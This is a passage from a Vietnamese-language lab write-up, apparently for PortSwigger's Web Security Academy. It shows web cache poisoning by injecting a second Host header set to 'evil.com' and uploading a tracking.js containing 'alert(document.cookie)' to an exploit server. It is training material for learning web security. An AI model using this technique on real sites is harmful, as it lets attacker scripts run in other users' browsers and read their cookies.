 ##### 2. Thử chèn Host header thứ 2

- Request dạng:

  ```
  GET /?cb=123 HTTP/1.1
  Host: 0a8a007104eed424c5f6f326005800c8.web-security-academy.net
  Host: evil.com
  ```

- Response: URL của script `/resources/js/tracking.js` bỗng đổi sang host `evil.com`.

- Kết luận: Backend lấy giá trị **Host thứ 2** để build URL → có thể kiểm soát.

##### 3. Tạo file JS độc hại

- Truy cập exploit server.

- Upload file `/resources/js/tracking.js` với nội dung:

  ```
  alert(document.cookie)
  ```

![image-20250822225552473](./image/image-20250822225552473.png)
